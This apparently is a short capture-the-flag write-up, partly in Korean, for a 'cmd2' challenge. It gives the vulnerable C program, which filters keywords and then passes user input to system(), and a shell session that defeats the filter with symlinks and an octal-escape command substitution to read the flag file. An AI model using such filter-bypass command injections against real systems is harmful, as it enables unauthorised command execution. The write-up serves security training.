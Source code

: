 ```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```
쉘 스크립트의 특성 
cmd2@ubuntu:~$ mkdir /tmp/cmd2k
cmd2@ubuntu:~$ cd /tmp/cmd2k
cmd2@ubuntu:/tmp/cmd2k$ ln -s /home/cmd2/cmd2 cmd2
cmd2@ubuntu:/tmp/cmd2k$ ln -s /home/cmd2/flag f
cmd2@ubuntu:/tmp/cmd2k$ ./cmd2 '$(echo "\57")bin$(echo "\57")cat f'
